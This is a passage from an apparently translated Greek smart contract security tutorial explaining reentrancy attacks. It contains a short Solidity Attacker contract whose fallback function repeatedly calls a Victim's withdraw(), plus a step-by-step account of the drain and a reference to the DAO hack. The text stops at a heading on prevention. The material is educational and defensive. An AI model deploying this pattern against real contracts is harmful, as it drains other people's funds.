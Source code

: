 ```solidity
 contract Attacker {
    function beginAttack() external payable {
        Victim(victim_address).deposit.value(1 ether)();
        Victim(victim_address).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(victim_address).withdraw();
        }
    }
}
```

Αυτό το συμβόλαιο έχει σχεδιαστεί να κάνει τρία πράγματα:

1. Να αποδεχτεί κατάθεση από έναν άλλο λογαριασμό (πιθανότατα τον EOA του επιτιθέμενου)
2. Να καταθέσει 1 ETH στο συμβόλαιο του Θύματος
3. Να κάνει ανάληψη του 1 ETH που είναι αποθηκευμένο στο έξυπνο συμβόλαιο

Δεν υπάρχει τίποτα κακό εδώ, εκτός από το ότι ο επιτιθέμενος `Attacker` έχει μια άλλη συνάρτηση που καλεί ξανά τη `withdraw()` στο `Victim` εάν το καύσιμο που απομένει από το εισερχόμενο `msg.sender.call.value` είναι μεγαλύτερο από 40.000. Αυτό δίνει στον `Attacker` τη δυνατότητα να εισέλθει ξανά στο `Victim` και να αποσύρει περισσότερα χρήματα _πριν_ ολοκληρωθεί η πρώτη κλήση της `withdraw`. Ο κύκλος μοιάζει με αυτό:

```solidity
- Attacker's EOA calls `Attacker.beginAttack()` with 1 ETH
- `Attacker.beginAttack()` deposits 1 ETH into `Victim`
- `Attacker` calls `withdraw() in `Victim`
- `Victim` checks `Attacker`’s balance (1 ETH)
- `Victim` sends 1 ETH to `Attacker` (which triggers the default function)
- `Attacker` calls `Victim.withdraw()` again (note that `Victim` hasn’t reduced `Attacker`’s balance from the first withdrawal)
- `Victim` checks `Attacker`’s balance (which is still 1 ETH because it hasn’t applied the effects of the first call)
- `Victim` sends 1 ETH to `Attacker` (which triggers the default function and allows `Attacker` to reenter the `withdraw` function)
- The process repeats until `Attacker` runs out of gas, at which point `msg.sender.call.value` returns without triggering additional withdrawals
- `Victim` finally applies the results of the first transaction (and subsequent ones) to its state, so `Attacker`’s balance is set to 0
```

Εν συντομία: επειδή το υπόλοιπο του καλούντος δεν ορίζεται σε 0 μέχρι την ολοκλήρωση της εκτέλεσης της συνάρτησης, οι επόμενες κλήσεις θα είναι επιτυχημένες και θα επιτρέψουν στον καλούντα να κάνει ανάληψη του υπολοίπου του πολλές φορές. Αυτός ο τύπος επίθεσης μπορεί να χρησιμοποιηθεί για να απομυζήσει τα κεφάλαια ένος έξυπνου συμβολαίου, όπως συνέβη στο [hack του DAO το 2016](https://www.coindesk.com/learn/2016/06/25/understanding-the-dao-attack/). Οι επιθέσεις επανεισόδου εξακολουθούν να αποτελούν ένα κρίσιμο ζήτημα για τα έξυπνα συμβόλαια σήμερα, όπως δείχνουν οι [δημόσιες καταχωρίσεις προγραμμάτων εκμετάλλευσης τρωτότητας (exploit) επανεισόδου](https://github.com/pcaversaccio/reentrancy-attacks).

##### Πώς να αποτρέψετε επιθέσεις επανεισόδου
